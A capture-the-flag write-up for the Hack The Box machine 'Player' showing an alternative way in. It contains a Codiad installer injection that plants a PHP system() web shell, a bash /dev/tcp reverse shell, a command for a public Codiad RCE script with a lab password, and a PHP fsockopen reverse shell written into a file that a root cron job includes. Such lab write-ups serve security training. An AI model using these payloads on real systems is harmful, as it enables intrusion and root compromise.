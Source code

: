 # Alternative way to exploit Player

## Exploiting Codiad on HTTP (dev.player.htb)

Instead of exploiting the **OpenSSH 7.2 vulnerability** and getting the credentials of _peter_ to get into _dev.player.htb_, there is a way to get a shell directly as _www-data_.

In the HTML source of _dev.player.htb_ is the JavaScript file _/components/user/init.js_ that reveals that the page is built with the framework [Codiad Web IDE](https://github.com/Codiad/Codiad) which is not maintained anymore.

This can be exploited as explained in this [blog post from Jianshu](https://www.jianshu.com/p/b09d20af2374).

POST request to _components/install/process.php_ to create the directory _data_ and _workspace_ on _chat.player.htb_:
```
POST /components/install/process.php HTTP/1.1
Host: dev.player.htb
(...)

path=RandomString1&username=testuser&password=pass123&project_name=/var/www/chat/data
```
```
POST /components/install/process.php HTTP/1.1
Host: dev.player.htb
(...)

path=RandomString1&username=testuser&password=pass123&project_name=/var/www/chat/workspace
```

It responds with the HTTP code _403 Forbidden_ which proofs that it worked.

POST request to exploit **Codiad**:
```
POST /components/install/process.php HTTP/1.1
(...)
path=%2fvar%2fwww%2fchat&username=testuser&password=pass123&password_confirm=pass123&project_name=RandomProjectName1&project_path=%2fvar%2fwww%2fchat&timezone=America%2fNew_York")%3bsystem($_REQUEST['cmd'])%3b//
```

Browsing to _chat.player.htb/config.php_ and executing commands:
```
http://chat.player.htb/config.php?cmd=whoami
```

It shows the output of `whoami` which is _www-data_ and proofs command execution.
Getting a reverse shell:
```
GET /config.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1' HTTP/1.1
Host: chat.player.htb
```

After URL-encoding the request and sending it, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

### Authenticated RCE on Codiad

There is also a [Python script to exploit Codiad](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) with valid credentials.
So this only works after getting the credentials of _peter_:
```
python codiad_rce.py http://dev.player.htb/ peter 'CQXpm\z)G5D#%S$y=' 10.10.14.21 9002 linux
```

After following the instructions and running both `nc` commands, the listener on my IP and port 9003 starts a reverse shell session as _www-data_.

## Privilege Escalation

The file _/var/lib/playbuff/buff.php_ includes a file that is owned by _www-data_:
```
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
```

This PHP file runs also every time, when _buff.php_ runs.
As _www-data_ can modify it, we are able to put malicious code in there to get command execution.

Putting the following PHP code into _var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php_:
```
<?php $sock=fsockopen("10.10.14.21",9002);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

After the cronjob for _buff.php_ runs again, the command gets executed and starts a reverse shell session on my IP and port 9002 as root!

